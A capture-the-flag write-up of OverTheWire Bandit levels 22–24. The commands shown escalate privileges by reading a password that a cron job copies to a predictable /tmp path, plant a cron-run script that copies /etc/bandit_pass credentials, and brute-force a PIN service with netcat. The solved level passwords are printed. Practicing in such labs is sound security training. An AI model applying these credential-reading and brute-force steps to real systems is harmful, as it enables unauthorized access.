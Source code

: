 ## Level 22
To solve this challenge we have to realise that the code is storing the password at a predictable location.
```
bandit22@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)      
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```
If we can find mytarget when myname is bandit23 we can find the password. Running this results in the password:
```
bandit22@bandit:/etc/cron.d$ myname=bandit23
bandit22@bandit:/etc/cron.d$ echo I am user $myname | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

Password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

## Level 23
If we make a script in the directory '/var/spool/bandit24' that puts the password in a file in the tmp directory then wait for the cron job to run it we can get the password. The part that got me stuck was setting the permissions of the files so that the script can read and write to them.
```
bandit23@bandit:/etc$ cd /tmp
bandit23@bandit:/tmp$ mkdir mac1
bandit23@bandit:/tmp$ cd mac1
bandit23@bandit:/tmp/mac1$ touch password
bandit23@bandit:/tmp/mac1$ chmod 666 password
bandit23@bandit:/tmp/mac1$ cd /var/spool/bandit24
bandit23@bandit:/var/spool/bandit24$ touch script.sh
bandit23@bandit:/var/spool/bandit24$ echo "cat /etc/bandit_pass/bandit24 > /tmp/mac1/password" > script.sh
bandit23@bandit:/var/spool/bandit24$ chmod 777 script.sh
bandit23@bandit:/var/spool/bandit24$ cd /tmp/mac1
bandit23@bandit:/tmp/mac1$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## Level 24
We can write a simple script to brute force the connection. [This SO exchange](https://stackoverflow.com/questions/33338128/netcat-with-milliseconds-interval) was particularly helpful.
```
bandit24@bandit:/tmp/mac2$ while read -r line; do echo "$line"; sleep 0.001; done < try.txt | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
Exiting.
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
